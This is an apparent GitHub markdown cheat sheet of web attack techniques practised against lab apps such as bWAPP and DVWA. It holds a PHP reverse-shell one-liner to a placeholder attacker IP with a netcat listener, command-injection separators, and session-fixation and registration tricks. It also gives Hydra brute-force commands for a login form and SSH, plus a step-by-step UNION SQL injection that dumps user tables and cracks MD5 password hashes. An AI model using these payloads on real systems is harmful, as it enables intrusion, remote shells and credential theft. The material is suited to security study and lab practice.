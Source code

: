 <div align="center" id="top"> 
  &#xa0;
</div>

<h1 align="center">Injection</h1>
<br>

## HTML Injection ##

- Refresh
```html
<meta http-equiv="refresh" content="5" URL=http://www.google.com />
```
<br>

## Command injection ##

- victim
  ```bash
  php -r '$sock=fsockopen("{{MY_IP}}",{{MY_PORT}});exec("/bin/bash -i <&3 >& 3 2>& 3");'
  ```
  => open connection from victim server and run 'bash' connect to hacker ip

- hacker
  ```bash
  nc -lvp {{MY_PORT}}
  ```
   => waiting for the connection from victim server

> **Saperated command for command injection on web**

<br>

There are the same result
> ping 192.168.1.1 -c 3; ls <br>
> => ping 192.168.1.1 -c 3 && ls <br>
> => ping 192.168.1.1 -c 3 & ls <br>

<br>

## Broken Authentication ##

### Broken Authentication ###
- Register the same name, `e.g.` the real user is 'ham' but you don't know password, you will register with name ' ham'(`space before name`) and create you password, and then login with 'ham' and you password

### Forgot password ###
- guess the usernames from 'worldliest/http_default-users.txt' => analysis by response size
- if found the username, guess question for retrieve password => analysis by response size

### Session Fixation ###
- Send mail or link to victim and set 'SID' into parameter `e.g.` www.test.com?a=5&b=1&SID=`123456`, 
If the victim login success, you must use `'SID'` as the same as the victim(in this case is `123456`)

**User attack type: Sniper => use static words to test**


<br>

## Bruteforce Attacks ##

- Cluster Bomb => Guess the username(`worldliest/http_default-users.txt) and password(worldliest/http_default-pass.txt`) and run the script to test.(Combination between username and password)

**You can use `'Grep - Match'` to reduce or specify the response**

**User attack type: Cluster Bomb**

<br>

- Hydra Bwapp => programm or script to help to crack username and password

link => http://192.168.43.35/bWAPP/login.php

````
HTML
input => name="login"
input => name="password"
button => name="form", value="submit"
*Message when login failed => "Invalid credentials or user not activated!"

Files
users.txt => lists of users
passwords.txt => Lists of password

Variables
- ^USER^
- ^PASS^

** Remove '!' for run this command on terminal

*This is command for use hydra to attack
hydra 192.168.43.35 http-form-post "/bWAPP/login.php:login=^USER^&password=^PASS^&form=submit:Invalid credentials or user not activated" -L users.txt -P passwords.txt
````

<br>

## Hydra SSH ##

```bash
# Scan ssh port
nmap 192.168.43.35 -F

hydra 192.168.43.35 -t 4 ssh -L users.txt -P passwords.txt
```
** -t to reduce parallel task **

<br>

## SQL injection ##

  - Find query to bypass sql query, `e.g.` 
  ```sql
  SELECT * FROM xxx WHERE username='test' or '1'='1 and ..... --
  ```
  (can add query to get user by id =>  .... username='test' or id='2), **Don't forgot '--' to convert the rest sql query to comment**

<br>

### Vulnerability: SQL Injection ###

```sql
# Original SQL => input is \'
select * from xxx where id='\''

# **Assume id is 2
2' order by 1 -- '

# ** get database and user for reduce output to the same columns(1, 2) of main table
2' UNION select database(), user() -- '

# **Get database schema to double-check 'dvwa' database
# **Assume we can get database name: dvwa, and user: dvwa@localhost
# ** ', 2' to output the same columns of main table
2' union select schema_name, 2 from information_schema.schemata -- '


# **Get database schema of database:dvwa
# **Assume schema_name:dvwa
2' union select table_name, 2 from information_schema.tables where table_schema='dvwa' -- '

# **Assume we can get list of tables on database: dvwa
# **Focus on table 'users'
2' union select column_name, 2 from information_schema.columns where table_schema='dvwa' -- '


# **Assume we can get all columns of table:users on databasse:dvwa
# **Display information them
2' union select concat(user_id,':',user,':',password), concat(first_name,':',last_name) from dvwa.users -- '


# **Assume we can get a lot of informations
# **e.g. '1:admin:21232f297a57a5a743894a0e4a801fc3, admin:admin', '3:1337:8d3533d75ae2c3966d7e0d4fcc69216b, Hack:Me'
# **Find reverse md5
# 8d3533d75ae2c3966d7e0d4fcc69216b => charley
# 21232f297a57a5a743894a0e4a801fc3 => admin
```

---
<br>

## License ##

This project is under license from me.

Contributor: <a href="https://github.com/wutchara" target="_blank">Wutchara</a>

&#xa0;

<a href="#top">Back to top</a>